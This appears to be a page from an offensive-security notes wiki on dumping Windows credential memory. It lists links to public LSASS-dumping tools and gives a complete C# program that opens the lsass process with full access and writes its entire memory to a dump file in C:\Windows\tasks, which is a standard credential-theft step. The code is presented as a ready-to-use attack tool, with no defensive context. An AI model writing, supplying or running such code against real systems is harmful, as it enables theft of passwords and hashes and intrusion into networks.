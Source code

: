 # From Memory




## MiniDumpWriteDump



### Custom Implementations

- [https://github.com/rookuu/BOFs/tree/main/MiniDumpWriteDump](https://github.com/rookuu/BOFs/tree/main/MiniDumpWriteDump)
- [https://github.com/w1u0u1/minidump](https://github.com/w1u0u1/minidump)
- [https://github.com/helpsystems/nanodump/blob/main/source/nanodump.c](https://github.com/helpsystems/nanodump/blob/main/source/nanodump.c)



### C\# Implementation

* [https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/MiniDump](https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/MiniDump)

{% code title="SharpMiniDump.cs" %}
```csharp
using System;
using System.IO;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace SharpMiniDump
{
    public class Program
    {
        [DllImport("Dbghelp.dll")]
        static extern bool MiniDumpWriteDump(IntPtr hProcess, int ProcessId, IntPtr hFile, int DumpType, IntPtr ExceptionParam, IntPtr UserStreamParam, IntPtr CallbackParam);

        [DllImport("kernel32.dll")]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        public static void Main(string[] args)
        {
            FileStream dumpFile = new FileStream(@"C:\Windows\tasks\lsass.dmp", FileMode.Create);

            Process[] lsassProc = Process.GetProcessesByName("lsass");
            int lsassPid = lsassProc[0].Id;
            
            IntPtr hProcess = OpenProcess(
                0x001F0FFF, // PROCESS_ALL_ACCESS
                false,
                lsassPid);

            bool res = MiniDumpWriteDump(
                hProcess,
                lsassPid,
                dumpFile.SafeFileHandle.DangerousGetHandle(),
                2, // MiniDumpWithFullMemory
                IntPtr.Zero,
                IntPtr.Zero,
                IntPtr.Zero);
        }
    }
}
```
{% endcode %}
